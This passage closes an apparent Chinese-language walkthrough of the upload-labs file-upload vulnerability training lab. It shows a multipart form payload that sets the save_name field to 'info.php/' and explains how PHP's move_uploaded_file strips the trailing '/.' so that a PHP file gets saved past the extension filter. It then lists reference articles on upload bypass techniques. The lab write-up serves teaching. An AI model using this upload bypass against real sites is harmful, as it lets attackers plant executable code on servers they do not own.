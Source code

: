 ```



info.php/

------WebKitFormBoundaryDTdqZdRoon2GpWOE

Content-Disposition: form-data; name="save_name[2]"



jpg

------WebKitFormBoundaryDTdqZdRoon2GpWOE

Content-Disposition: form-data; name="submit"



上传

------WebKitFormBoundaryDTdqZdRoon2GpWOE--
```

最终文件名为“info.php/.” 因为move_uploaded_file底层会调用tsrm_realpath函数导致，递归删除文件名最后的/.







> 参考文章：https://blog.csdn.net/weixin_43901038/article/details/94890631

> https://www.cnblogs.com/shellr00t/p/6426945.html

> https://thief.one/2016/09/22/%E4%B8%8A%E4%BC%A0%E6%9C%A8%E9%A9%AC%E5%A7%BF%E5%8A%BF%E6%B1%87%E6%80%BB-%E6%AC%A2%E8%BF%8E%E8%A1%A5%E5%85%85/

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/upload-labs%E9%80%9A%E5%85%B3%E8%AE%B0%E5%BD%95/  

